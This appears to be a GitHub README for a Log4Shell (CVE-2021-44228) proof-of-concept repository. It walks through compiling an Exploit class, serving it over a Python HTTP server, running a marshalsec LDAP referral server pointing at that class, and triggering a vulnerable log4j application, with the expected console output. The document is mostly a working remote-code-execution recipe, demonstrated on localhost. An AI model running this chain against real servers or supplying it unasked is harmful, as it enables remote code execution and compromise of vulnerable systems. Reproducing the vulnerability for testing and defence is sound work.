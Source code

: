 # CVE-2021-44228 (Apache Log4j Remote Code Execution）

> [all log4j-core versions >=2.0-beta9 and <=2.14.1](https://logging.apache.org/log4j/2.x/security.html)

### Requirements

Java 8 required.

### Usage

Download this project.

```
git clone https://github.com/kimberleyhallifax/log4shell.git
```

Compile exploit code and run python web server.

```
cd CVE-2021-44228-Apache-Log4j-Rce
javac Exploit.java

# For Python2
python -m SimpleHTTPServer 8888
# For Python3
python3 -m http.server 8888

# Make sure python webserver is running the same directory as Exploit.class, to test
  curl -I 127.0.0.1:8888/Exploit.class
```

Build and run the vulnerable jndi LDAP server.

```
git clone https://github.com/mbechler/marshalsec.git
cd marshalsec
# Java 8 required
mvn clean package -DskipTests
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Exploit"
```

Build and run the activation code (simulate an log4j attack on a vulnerable java web server).

```
cd CVE-2021-44228-Apache-Log4j-Rce
mvn clean package
java -cp target/log4j-rce-1.0-SNAPSHOT-all.jar log4j

# 1. in ldapserver console,
#  Send LDAP reference result for Exploit redirecting to http://127.0.0.1:8888/Exploit.class
# 2. in webserver console,
#  127.0.0.1 - - [....] "GET /Exploit.class HTTP/1.1" 200 -
```

### Details Of Vuln
Lookups provide a way to add values to the Log4j configuration at arbitrary places.

[Lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html)

> The methods to cause leak in finally

```
LogManager.getLogger().error()
LogManager.getLogger().fatal()
```